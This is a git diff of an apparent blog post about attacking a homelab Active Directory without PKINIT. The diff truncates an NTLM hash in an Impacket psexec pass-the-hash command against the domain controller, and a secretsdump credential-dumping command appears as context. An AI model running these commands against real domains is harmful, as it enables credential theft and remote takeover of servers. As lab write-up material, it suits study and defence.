

What if no PKINIT? still the same fun

diff --git a/_posts/2024-05-18-what-if-no-pkinit-still-the-same-fun.md b/_posts/2024-05-18-what-if-no-pkinit-still-the-same-fun.md
@@ -281,7 +281,7 @@ impacket-secretsdump n.kiriazis@dc01.homelab.local
 <p>Last but not least, use a technique such as Pass-the-Hash with Impacket's psexec or wmiexec to connect remotely to the Domain Controller (DC):</p>
 
 ```
-impacket-psexec administrator@dc01.homelab.local -dc-ip 192.168.242.179 -hashes :07fadc7e00643f5733e6c4449b2cf3e1
+impacket-psexec administrator@dc01.homelab.local -dc-ip 192.168.242.179 -hashes :07fadc7e00643f5733e6c4449...
 ```
 
 <img src="/assets/img/post-img/18-05-2024/Pass-The-Hash.png" class="post-images" alt="Pass-The-Hash">
